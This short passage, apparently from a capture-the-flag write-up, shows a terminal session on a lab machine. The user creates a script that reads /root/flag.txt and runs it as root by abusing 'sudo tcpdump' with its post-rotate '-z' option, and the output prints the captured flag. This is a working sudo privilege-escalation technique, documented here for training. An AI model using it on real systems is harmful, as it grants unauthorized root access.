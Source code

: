 ```text
webdeveloper@webdeveloper:~$ touch /tmp/exploit
webdeveloper@webdeveloper:~$ echo "cat /root/flag.txt" > /tmp/exploit 
webdeveloper@webdeveloper:~$ chmod +x /tmp/exploit
webdeveloper@webdeveloper:~$ sudo tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z /tmp/exploit -Z root
dropped privs to root
tcpdump: listening on eth0, link-type EN10MB (Ethernet), capture size 262144 bytes
Maximum file limit reached: 1
1 packet captured
14 packets received by filter
0 packets dropped by kernel
webdeveloper@webdeveloper:~$ Congratulations here is youre flag:
cba045a5a4f26f1cd8d7be9a5c2b1b34f6c5d290
```

And here we have another machine. 